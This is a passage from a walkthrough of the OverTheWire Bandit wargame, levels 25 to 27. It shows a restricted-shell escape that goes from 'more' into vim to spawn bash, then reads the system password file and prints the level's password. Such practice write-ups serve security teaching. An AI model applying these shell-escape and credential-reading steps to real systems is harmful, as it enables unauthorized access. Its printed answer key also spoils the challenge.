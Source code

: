 **Theory**: We need to exploit the custom shell to break out and get access.

**Solution**:

Step 1: Check what shell bandit26 uses
```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

Step 2: Read the custom shell script
```bash
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```

It uses `more` to display text, then exits! The key: `more` only paginates if the text doesn't fit on screen.

Step 3: Make your terminal very small (resize the window to just a few lines tall)

Step 4: SSH to bandit26
```bash
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220
```

Because the terminal is small, `more` will show "--More--" at the bottom.

Step 5: Press `v` to enter vim from `more`

Step 6: In vim, set the shell and start it
```vim
:set shell=/bin/bash
:shell
```

You now have a bash shell as bandit26!

Step 7: Get the password
```bash
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```

**Password for Level 26**: `c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1`

---

## Level 26 → Level 27

> **Level Goal**: Good job getting a shell! Now hurry and grab the password for bandit27!

**Recommended Commands**: `ls`
